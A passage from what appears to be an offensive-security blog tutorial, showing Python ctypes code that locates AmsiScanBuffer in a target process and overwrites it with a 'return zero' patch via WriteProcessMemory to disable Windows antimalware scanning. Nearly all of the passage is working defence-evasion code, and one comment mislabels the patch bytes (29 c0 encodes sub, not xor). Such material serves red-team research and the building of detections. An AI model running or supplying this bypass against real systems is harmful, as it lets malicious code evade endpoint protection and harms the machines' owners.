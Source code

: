 Wonderful!

### Patch AmsiScanBuffer

Now that we found our target address,
we can patch it with the payload we discussed
in our [previous post](../amsi-bypass/):

```x86asm
xor eax,eax
ret
```

Let's create a variable with that:

```python
patchPayload = (
    b'\x29\xc0' +           # xor eax,eax
    b'\xc3'                 # ret
)
```

I also wrote the following function
to help with the patching:

```python
def writeBuffer(handle, address, buffer):
    nBytes = c_int(0)
    KERNEL32.WriteProcessMemory.argtypes = [c_ulong, c_void_p, c_void_p, c_ulong, c_void_p]
    res = KERNEL32.WriteProcessMemory(handle, address, buffer, len(buffer), byref(nBytes))
    if not res:
        print(f'[-] WriteProcessMemory Error: {KERNEL32.GetLastError()}')
    return res
```

It will take the process handle,
the address of `AmsiScanBuffer` that we discovered
and the patching payload.
Then,
using `WriteProcessMemory()`
it will patch `AmsiScanBuffer` with our instructions.

The relevant updated part of the script is now:

```python
amsiScanBufferAddress = readBuffer(process_handle, amsiDllBaseAddress, AmsiScanBuffer)
print(f'[+] Address of AmsiScanBuffer found at {hex(amsiScanBufferAddress)}')

patchPayload = (
    b'\x29\xc0' +           # xor eax,eax
    b'\xc3'                 # ret
)

if writeBuffer(process_handle, amsiScanBufferAddress, patchPayload):
    print(f'[+] Success patching AmsiScanBuffer in PID {pid}')
```

